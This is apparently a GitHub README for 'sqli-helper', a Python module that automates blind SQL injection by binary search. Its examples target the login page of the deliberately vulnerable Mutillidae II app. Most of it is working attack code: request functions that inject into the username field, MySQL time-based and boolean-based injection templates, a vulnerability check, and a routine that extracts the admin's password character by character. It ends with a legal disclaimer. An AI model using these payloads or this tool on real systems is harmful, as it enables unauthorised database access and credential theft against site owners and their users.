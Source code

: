 # sqli-helper
Python module for speed-up SQLI exploitation (Blind or other)

The extraction use [Binary search algorithm](https://en.wikipedia.org/wiki/Binary_search_algorithm) for define which candidate is the good value.

## Usages
(the examples are for Login of [mutillidae II](https://github.com/webpwnized/mutillidae) )

### Define the function who execute the requests

This fuction must match to `(request: str) -> bool`.

This function include then target specific logic (encodage, token, method, ...)

##### Time Based Injection 

```python
sleep_duration = 1

def exec_request(request: str) -> bool:
    url = "http://meta.local/mutillidae/index.php?page=login.php"
    datas = {
        'username': f"test' AND {request} #",
        'password': "pass",
        'login-php-submit-button': "Login",
    }
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    res = requests.post(url, data=datas, headers=headers)
    return res.elapsed.seconds >= sleep_duration
```
##### Boolean Based Injection

```python
def exec_request(payload: str) -> bool:
    url = "http://meta.local/mutillidae/index.php?page=login.php"
    datas = {
        'username': f"test' {payload}",
        'password': "pass",
        'login-php-submit-button': "Login",
    }
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    res = requests.post(url, data=datas, headers=headers, allow_redirects=False)
    return res.status_code == 302
```

### Check if target is vulnerable for payload

```python
# define the template of the Injection
# Basis MySQL Time based template
template = string.Template(f'OR (SELECT 1 FROM (SELECT(SLEEP(IF(($request)$test,{sleep_duration},0))))a) # ')
# Basis MySQL Boolean based template
# template = string.Template('OR ($request)$test # ')

helper = SqliHelper(MySqlConfig(), exec_request)
# Is target vulnerable ?
if(helper.check("SELECT 1")):
    print("Target is Vulnerable")
else:
    print("Target is not Vulnerable")
    exit()
```

### Exctract Data from a cell 
```python
# define the template of the Injection
# Extract text MySQL Time based template
template = string.Template(f'OR (SELECT 1 FROM (SELECT(SLEEP(IF(ORD(MID(($request),$index,1))$test,{sleep_duration},0))))a) # ')
# Extract text MySQL Boolean based template
# template = string.Template('OR ORD(MID(($request),$index,1))$test # ')

# extract pass
# the expected values are ASCII alphanum
candidates = SqliHelper.string_to_candidates(string.ascii_letters + string.digits)

helper.prepare_new(candidates, template=template)

result = helper.extract_cell("SELECT password FROM accounts WHERE username = 'admin' LIMIT 0,1")
print("pass for 'admin' : ", "".join(map(chr, result)))
```

More examples in 'example' folder

## Legal disclaimer

Use of this script for attacking a target without mutual consent is illegal. It's is the end user responsibility to obey all applicables laws for his location Developers assume no lisibility and are not responsible for any misuse or domage caused by this program
